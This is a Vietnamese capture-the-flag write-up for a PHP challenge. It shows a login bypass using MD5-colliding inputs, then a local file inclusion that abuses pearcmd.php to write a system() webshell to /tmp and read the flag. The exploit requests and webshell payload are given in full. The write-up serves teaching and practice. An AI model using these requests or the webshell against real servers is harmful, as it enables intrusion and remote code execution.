

# 1: Bypass login

```
<?php
    if(isset($_POST["submit"])){
        $username = base64_decode($_POST['username']);
        $password = base64_decode($_POST['password']);

        if(($username == $password)){
            echo 'Username and password are not the same';
        }
        else if((md5($username)===md5($password))){
            $_SESSION['username'] = $username;
            header('Location: admin.php?file=1.txt');
        } else {
            echo "Username: " . $username . "<br>";
            echo "Password: " . $password . "<br>";
            echo "Username_MD5: " . md5($username) . "<br>";
            echo "Password_MD5: " . md5($password) . "<br>";
            echo 'Username and password are wrong';
        }
    }
?>```

Đoạn mã php trên cho ta nhập username và password với điều kiện phải khác nhau

Sau đó chương trình dùng 2 hàm 

```
$username = base64_decode($_POST['username']);
$password = base64_decode($_POST['password']);
```

để giải mã 2 đoạn mã ta nhập vào

Sau đó chương trình lại dùng hàm md5 chúng và so sánh chúng, nếu giống nhau 
ta sẽ được chuyển hướng người dùng đến trang `admin.php?file=1.txt` bằng cách sử dụng hàm `header()`.

Ok vậy ở đây làm sao để 2 chuỗi khác nhau có cùng 1 md5_hash?

search thì ta có https://crypto.stackexchange.com/questions/1434/are-there-two-known-strings-which-have-the-same-md5-hash-value

``
> md5sum message1.bin message2.bin
> 008ee33a9d58b51cfeb425b0959121c9 message1.bin
> 008ee33a9d58b51cfeb425b0959121c9 message2.bin
```
Và encode chúng ta được 2 file encode cũng là username và password


Ok vậy ta đã có quyền admin

# 2: RCE

```
<?php
    header('Content-Type: text/html; charset=utf-8');
    session_start();
    if($_SESSION['username'] != null){
    if(isset($_GET['file'])){
        $file = $_GET['file'];
        include($file);
    }
    }
    else{
        die("Only admin can use this");
    }
?>
```

Chú ý đến phần 

```
if(isset($_GET['file'])){
    $file = $_GET['file'];
    include($file);
}
```
Đoạn mã gán giá trị của `$_GET['file']` vào biến `$file` và sử dụng hàm `include($file)` để bao gồm nội dung của tệp tin được chỉ định. Điều này cho phép ta đưa nội dung của một tệp tin vào tệp tin hiện tại.

Ví dụ: Nếu URL chứa tham số file là `example.php?file=content.php`, thì giá trị của `$_GET['file']` sẽ là `content.php`. Đoạn mã `include($file)` sẽ chèn nội dung của tệp tin `content.php` vào tệp tin hiện tại tại vị trí đó.

Ok đầu tiên mình sẽ tạo 1 file và gửi content (webshell) vào file vừa tạo bằng phương thức get 

https://w4rsp1t3.moe/2021/11/26/%E5%85%B3%E4%BA%8E%E5%88%A9%E7%94%A8pearcmd%E8%BF%9B%E8%A1%8C%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E7%9A%84%E4%B8%80%E4%BA%9B%E6%80%BB%E7%BB%93/

GG search thì ta thấy với file `pearcmd.php`

pearcmd.php (hay peclcmd.php) là một công cụ quản lý tiện ích mở rộng bằng command line


Ở đây có rất nhiều cmd của pear và với `config-create` ta có thể tạo file mới với 2 tham số đó là đường dẫn đến file pearcmd.php và đường dẫn đến file cần tạo

Đây chính là đoạn mã để ghi và tạo file

```
GET /admin.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=system($_GET[0]);?>+/tmp/asddddd.php HTTP/1.1
```

`/tmp/asddddd.php`: Đường dẫn đến file vừa tạo

`<?=system($_GET[0]);?>`: Content chứa hàm thực thi `system()`

`/usr/local/lib/php/pearcmd.php`: Tham số file với đường dẫn đến `pearcmd.php`

Khi mã này được thực thi, nội dung của tệp tin `pearcmd.php` sẽ được `import` vào tệp tin `admin.php`. Nội dung của tệp tin `pearcmd.php` sẽ được xử lý như mã PHP thường, tương tự như nội dung của `admin.php`. và khi đó ta sẽ thực thi được câu lệnh tạo file như trên với nội dung truyền vào là `<?=system($_GET[0]);?>`


Vậy là đã tạo được file `asddddd.php` tại đường dẫn /tmp

Tiếp đến chạy đến đường dẫn đó và thực thi lệnh cat flag thôi

```
GET /admin.php?file=/tmp/asddddd.php&0=cat+/flagViTen.txt HTTP/1.1
```

